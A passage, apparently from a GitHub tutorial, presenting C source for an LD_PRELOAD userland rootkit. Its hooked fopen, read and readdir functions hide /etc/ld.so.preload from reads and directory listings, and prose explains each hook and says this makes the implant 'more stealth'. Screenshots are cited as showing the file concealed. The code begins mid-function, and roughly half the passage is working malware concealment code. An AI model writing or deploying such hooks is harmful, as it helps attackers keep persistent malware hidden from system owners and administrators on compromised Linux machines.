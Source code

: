 ```

    if (len > 0) {
        actual_path[len] = '\0';
        if (strcmp(actual_path, HIDDEN_FILE) == 0) {
            errno = ENOENT;
            return -1;
        }
    }

    return orig_read(fd, buf, count);
}

struct dirent *(*orig_readdir)(DIR *dirp);
struct dirent *readdir(DIR *dirp)
{
    if (!orig_readdir) {
        orig_readdir = dlsym(RTLD_NEXT, "readdir");
    }

    struct dirent *entry;
    while ((entry = orig_readdir(dirp)) != NULL) {
        if (strcmp(entry->d_name, "ld.so.preload") != 0) {
            return entry;
        }
    }
    return NULL;
}
```

- fopen: This function checks if the file is `/etc/ld.so.preload`, if so, prevents it from opening by returning `NULL` and setting the error to `ENOENT (No such file or directory)`, otherwise, it calls the function fopen original to open other files normally.
##
- read: Before reading, the function checks whether the file associated with the fd (file descriptor) is `/etc/ld.so.preload` (using readlink to obtain the actual path of the file), if so, a error on the read, returning -1 and setting the error to `ENOENT`, otherwise it calls the original read function to read other files normally.
##
- readdir: This function reads directory entries and checks if the name of any entry is `ld.so.preload`, if it finds that name, it ignores the entry and continues the search, otherwise it returns the entry normally, that is, it becomes invisible if you try to read `ls -lah /etc/ |grep ld.so.preload`.

And then, it becomes more "stealth".

Checking if `ld.so.preload` is listed in `/etc/`:

![imgur](https://i.imgur.com/L42MtGO.png)

Checking if you can see the contents of `/etc/ld.so.preload`:

![imgur](https://i.imgur.com/yyLVoqp.png)
